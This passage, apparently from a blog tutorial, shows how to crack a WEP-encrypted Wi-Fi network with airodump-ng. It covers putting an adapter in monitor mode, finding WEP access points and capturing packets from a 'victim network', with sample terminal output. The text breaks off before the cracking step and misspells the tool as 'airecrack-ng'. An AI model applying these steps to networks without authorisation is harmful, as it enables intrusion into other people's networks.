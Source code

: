 First, change your network adapter mode to monitor. You can do this by running the following command, replacing `wlan0` with your adapter’s monitor mode interface name if different

Once this is done, use `airodump-ng` followed by the name of the adapter to list all available Access Points nearby. You will see a list of networks, and you need to identify the ones where the ENC used is WEP.

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airodump-ng wlan0

 CH 14 ][ Elapsed: 36 s ][ 2025-06-01 20:36 ][ enabled AP selection                                                                                         
                                                                                                                                                            
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                            
                                                                                                                                                            
...                                                                 
 XX:XX:XX:XX:XX:XX  -28       57     2256   29   3   54   WEP  WEP         wifi-old                                                                         

 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes
                                                                                        
 XX:XX:XX:XX:XX:X   XX:XX:XX:XX:XX:XX  -29   54 -54   1737     2252                                                                                         
 (not associated)   XX:XX:XX:XX:XX:XX  -49    0 - 1      0        2                                                                                         
 (not associated)   XX:XX:XX:XX:XX:XX  -49    0 - 1      0        2                                                                                         
 ...
```

In my case, the Access Point named `wifi-old` is using a WEP connection. Now we will capture packets from this target network.
To do so, run the following command to capture packets, replacing the BSSID and channel with those of the victim network:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airodump-ng --bssid <target-BSSID> -c <channel> -w wep.cap wlan0

CH  3 ][ Elapsed: 24 s ][ 2025-06-01 20:41            
                                                       
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH 
                                                       
 XX:XX:XX:XX:XX:XX  -28   0      268    10561  384   3 
                                                       
 BSSID              STATION            PWR    Rate     
                                                       
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -29   54 -54      0    10534 
```

The `--write` option saves all captured packets to the specified file. Capture around 10,000 packets; the capture file will be saved in your current working directory.
After you have enough packets, run `airecrack-ng` with the capture file to try and recover the password:
